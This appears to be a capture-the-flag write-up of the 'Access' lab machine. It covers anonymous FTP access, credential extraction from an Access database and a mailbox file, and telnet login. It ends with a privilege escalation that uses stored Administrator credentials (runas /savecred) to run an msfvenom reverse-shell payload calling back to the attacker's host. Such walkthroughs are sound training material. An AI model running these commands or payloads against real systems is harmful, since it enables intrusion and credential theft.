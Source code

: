 # Access

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Running the full port scan, I found that ports 21, 23 and 80 were open.&#x20;

### (21) FTP

FTP is configured to allow anonymous login and I found `backup.mdb`&#x20;

To obtain the .mdb file, I changed the FTP transfer mode to binary using the command `bin` and downloaded the file using `get backup.mdb`

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

I was able to view the tables using `mdb-tables backup.mdb`

The `auth_user` table caught my attention.

Using `mdb-export backup.mdb auth_user`, I found the following credentials.&#x20;

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

Furthermore, I found `Access Control.zip` in the FTP server.&#x20;

Trying to unzip the file, I obtained `unsupported compression method 99`. Searching online for solution, I decided to use `7z` to unzip the folder.

Using the command `7z x Access\ Control.zip`, I found that it requires a password to unzip.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Trying the password obtained from `auth_user` table (access4u@security), I managed to successfully unzip the folder.

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

A file named `Access Control.pst` was being extracted. To view the contents of a `.pst` file, I used the command `readpst 'Access Control.pst`

Opening the email up, I found the credentials: `security:4Cc3ssC0ntr0ller`

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### (23) Telnet

I managed to login using the credentials `security:4Cc3ssC0ntr0ller`

Found the user flag

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

To show the currently stored credentials, use the command `cmdkey /list`

I obtained the following:

```
Target: Domain:interactive=ACCESS\\Administrator
                                                Type: Domain Password
User: ACCESS\\Administrator
```

It means that the Administrator credentials were stored in the target which allows the attackers to run commands impersonating the Administrator.

I generated a reverse shell payload using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o reverse.exe`&#x20;

Transferred from kali to victim (`copy \10.10.14.6\share\reverse.exe reverse.exe`)

Run the reverse.exe as administrator using `runas /savecred /user:ACCESS\Administrator reverse.exe`

And I obtained a shell as the administrator.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

